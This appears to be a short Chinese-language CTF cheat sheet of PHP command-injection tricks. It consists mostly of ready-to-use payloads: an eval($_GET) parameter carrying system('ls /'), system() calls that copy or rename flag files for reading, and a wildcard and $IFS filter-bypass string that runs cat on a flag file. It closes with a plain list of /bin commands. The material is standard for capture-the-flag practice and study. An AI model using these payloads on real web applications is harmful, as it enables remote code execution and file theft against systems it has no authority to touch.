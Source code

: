 ## 配合传参
```
eval($_GET[1]);&1=system("ls%20/");
```
## 拷贝文件或者修改文件名
```
system("cp fla*.php 1.txt");
system("mv fla*.php 1.txt");
```
## 调用bin
```
/bin/?at${IFS}f???????
```
```
在Linux中，/bin是安装基本系统管理命令和二进制文件的文件夹。这些二进制文件是指执行文件，通常包含在系统启动过程中需要的工具和命令行工具。/bin目录中包含了大量的基本命令和工具，包括：
 
\1. bash - 标准的命令行Shell
\2. cat - 将文件内容输出到屏幕
\3. cp - 复制文件
\4. date - 显示或设置系统时间
\5. mv - 移动或重命名文件
\6. pwd - 显示当前所在的工作目录
\7. rm - 删除文件或目录
\8. touch - 新建空白文件或更改文件的访问和修改时间
```
